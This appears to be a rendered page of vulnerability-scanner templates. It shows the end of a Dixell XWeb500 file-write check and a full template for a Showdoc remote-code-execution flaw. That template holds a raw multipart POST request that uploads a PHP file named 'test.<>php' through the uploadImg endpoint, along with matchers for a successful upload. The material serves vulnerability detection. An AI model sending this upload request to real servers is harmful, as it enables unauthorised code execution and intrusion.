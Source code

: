 ### Matchers

**Type - dsl**

- dsl
  1. contains(body_2, "dixell-xweb500-filewrite")

**Type - status**

- status
  1. 200

---

# Showdoc \<2.8.6 - Remote Code Execution

## Description

- Showdoc versions before 2.8.6 is susceptible to remote code execution.

- severity - critical
- tags - rce,fileupload,showdoc,oss,intrusive

## Requests

### Step - 1

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=--------------------------835846770881083140190633

----------------------------835846770881083140190633
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php echo md5('rce_test');?>
----------------------------835846770881083140190633--

```

### Matchers

**Type - word**

- part - body
- words
  1. "url":"http:
  2. "success":1
- condition - and

**Type - status**
